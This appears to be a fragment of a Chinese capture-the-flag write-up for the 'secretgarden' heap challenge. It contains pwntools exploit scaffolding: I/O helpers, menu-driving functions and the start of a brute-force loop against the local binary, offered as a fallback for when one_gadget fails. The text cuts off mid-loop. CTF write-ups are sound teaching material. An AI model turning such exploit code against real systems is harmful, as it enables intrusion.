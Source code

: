 ```python  
remote(1)  
getshell()  
```  
  
如果由于堆栈原因one_gadget不可用:  
  
```python  
#encoding:utf-8  
from pwn import *  
# context(os="linux", arch="amd64",log_level = "debug")  
  
#-------------------------------------
def sl(s):  
    p.sendline(s)  
def sd(s):  
    p.send(s)  
def rc(timeout=0):  
    if timeout == 0:  
        return p.recv()  
    else:  
        return p.recv(timeout=timeout)  
def ru(s, timeout=0):  
    if timeout == 0:  
        return p.recvuntil(s)  
    else:  
        return p.recvuntil(s, timeout=timeout)  
def debug(msg=''):  
    gdb.attach(p,'')  
    pause()  
def getshell():  
    p.interactive()  
#-------------------------------------
def create(size,name,color):  
    ru("Your choice : ")  
    sl("1")  
    ru("Length of the name :")  
    sl(str(size))  
    ru("The name of flower :")  
    sd(name)  
    ru("The color of the flower :")  
    sl(color)  
  
def visit():  
    ru("Your choice : ")  
    sl("2")  
  
def remote(index):  
    ru("Your choice : ")  
    sl("3")  
    ru("Which flower do you want to remove from the garden:")  
    sl(str(index))  
  
def clean():  
    ru("Your choice : ")  
    sl("4")  
  
  
offset = 0  
while offset < 0x20:  
    try:  
        p = process("./secretgarden")#, aslr=0  
        elf = ELF("./secretgarden")  
        #libc = ELF("./libc-2.23.so")  
        libc = elf.libc  
```